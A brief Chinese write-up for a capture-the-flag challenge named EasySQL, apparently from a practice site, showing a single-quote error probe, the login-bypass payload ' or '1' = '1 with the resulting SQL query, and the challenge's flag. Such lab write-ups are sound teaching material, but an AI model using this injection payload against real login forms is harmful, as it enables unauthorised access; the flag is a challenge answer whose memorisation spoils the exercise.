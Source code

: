 # [EasySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)
## writeup
1. 密码处输入`'`                               
![](./img/shuchu.png)                               
2. 密码输入` ' or '1' = '1 `，相当于`sql="SELECT * FROM users WHERE name='admin' and pass='' or '1' = '1'"`                               
![](./img/ok.png)                               
3. flag:`flag{41d91001-44f4-40c7-8dd0-9ec611f64e24}`